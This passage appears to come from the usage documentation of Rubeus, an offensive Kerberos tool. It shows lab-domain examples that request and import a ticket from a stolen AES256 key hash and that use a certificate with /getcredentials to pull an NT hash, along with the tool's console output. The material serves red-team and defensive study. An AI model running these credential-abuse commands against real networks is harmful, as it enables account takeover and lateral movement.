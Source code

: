     C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly:C:\Windows\System32\cmd.exe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 7564
    [+] LUID            : 0x3c4c241

    [*] Action: Ask TGT

    [*] Using aes256_cts_hmac_sha1 hash: e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27
    [*] Target LUID : 63226433
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 234 bytes
    [*] Received 1620 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFujCCBbagAwIBBaEDAgEWooIEvzCCBL...(snip)...

    [*] Action: Import Ticket
    [*] Target LUID: 0x3c4c241
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**

Requesting a ticket using a certificate and using `/getcredentials` to retrieve the NT hash:

    C:\Rubeus>Rubeus.exe asktgt /user:harmj0y /domain:rubeus.ghostpack.local /dc:pdc1.rubeus.ghostpack.local /getcredentials /certificate:MIIR3QIB...(snip)...QI/GZmyPRFEeE=

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
